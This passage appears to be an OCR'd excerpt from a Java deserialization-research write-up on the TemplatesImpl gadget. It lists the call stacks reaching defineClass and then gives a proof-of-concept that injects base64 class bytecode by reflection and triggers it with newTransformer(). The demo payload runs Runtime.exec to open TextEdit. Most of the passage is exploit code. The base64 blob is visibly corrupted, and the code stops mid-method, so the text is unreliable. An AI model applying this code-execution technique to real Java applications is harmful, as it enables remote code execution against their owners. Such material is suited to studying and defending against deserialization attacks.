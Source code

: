 > When analyzing `TemplatesImpl`, I have already learned that there are two call stacks in `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` about `TransletClassLoader#defineClass()`.

```java
[1] TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()

[2] TemplatesImpl#getOutputProperties() ->TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
```

> The first two methods `TemplatesImpl#getOutputProperties()`, and the scope of `TemplatesImpl#newTransformer()` is `public`, which can be called externally. Try to use `new Transformer()` to construct a simple `POC`

```java
package URLClassLoaderDemo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.*;
import java.io.*;
import java.lang.reflect.Field;
import javax.xml.transform.*;
import java.util.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 5:39 pm
 */
public class TemplatesImplLoader {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException, TransformerConfigurationException {
        String shell = "yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFj aGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmmlhbGl6YXRpb25IYW5kbGVyOylWBwAbAQCmKExjb20vc3VuL29yZy9hcGFjaGUveG FsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJp YWxpemF0aW9uSGFuZGxlcjspVgEAClNvdXJjZUZpbGUBAB5FdmlsT2ZUZW1wbGF0ZXNsbXBsTG9hZGVyLmphdmEMAAcACAcAHAwAHQAeAQApb3BlbiAtYSAvU3lzdGVtL0FwcGxpY2F0aW9ucy9UZXh0RWRpdC5hcHAMAB 8AIAEALFVSTENsYXNzTG9hZGVyRGVtby9FdmlsT2ZUZW1wbGF0ZXNsbXBsTG9hZGVyAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAE2phdmEv aW8vSU9FeGNlcHRpb24BADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUn VudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAADwAEABAA DQARAAsAAAEADAABAA0ADgACAAAAAAAZAAAAWAAAAAGxAAAAAQAKAAAAABgABAAAAAFQALAAAAAABAA8AAQANABAAAAGAAAAAAAABsQAAAAAAAAAAAAAAAAAFQALAAAAABAA8AAQANABAAAAGAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEg==";
        byte[] shellCode = Base64.getDecoder().decode(shell);

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = c1.getDeclaredField("_name");
        Field _bytecode = c1.getDeclaredField("_bytecodes");
        Field _tfactory = c1.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, new byte[][]{shellCode});
        _tfactory.set(templates, new TransformerFactoryImpl());

        templates.newTransformer();
```